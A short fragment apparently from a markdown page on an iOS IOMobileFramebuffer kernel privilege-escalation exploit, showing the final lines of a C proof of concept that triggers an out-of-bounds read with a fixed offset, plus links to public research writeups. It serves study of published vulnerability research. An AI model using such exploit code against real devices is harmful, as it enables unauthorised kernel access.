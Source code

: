 ```c

    // Trigger the OOB read. The magic constant chooses a pointer-slot
    // far beyond the legit array (offset is in bytes; index = offset/8).
    // If the spray worked, this returns a **Mach port name** (handle) to one
    // of your sprayed IOSurfaces; otherwise it may crash.
    printf("[*] trigger\n");
    trigger_oob(0x1200000 + 0x1048);
    return 0;
}
```

## References
- [Original writeup by Saar Amar](https://saaramar.github.io/IOMobileFrameBuffer_LPE_POC/)
- [Exploit PoC code](https://github.com/saaramar/IOMobileFrameBuffer_LPE_POC)
- [Research from jsherman212](https://jsherman212.github.io/2021/11/28/popping_ios14_with_iomfb.html?utm_source=chatgpt.com)

